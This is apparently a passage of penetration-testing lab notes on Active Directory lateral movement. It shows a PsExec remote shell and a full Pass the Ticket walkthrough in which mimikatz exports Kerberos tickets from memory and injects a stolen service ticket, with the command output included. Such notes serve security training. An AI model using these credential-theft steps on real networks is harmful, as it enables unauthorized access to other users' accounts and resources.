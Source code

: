 ```
.\PsExec.exe \\files04 cmd
```

### Pass the Ticket

Involves stealing another users Kerberos ticket on the local machine with `mimikatz` to gain access to a resource

```
privilege::debug
sekurlsa::tickets /export
```

We can now verify newly generated tickets with the following command

```
PS C:\Tools> dir *.kirbi


    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c6860]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c6860]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c7bcc]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c7bcc]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c933d]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c933d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1ca6c2]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1ca6c2]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
...
```

For this example, we can pick any TGS ticket in the `dave@cifs-web04.kirbi` format and inject it with `mimikatz`

```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

We can now check if the ticket was loaded properly

```
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
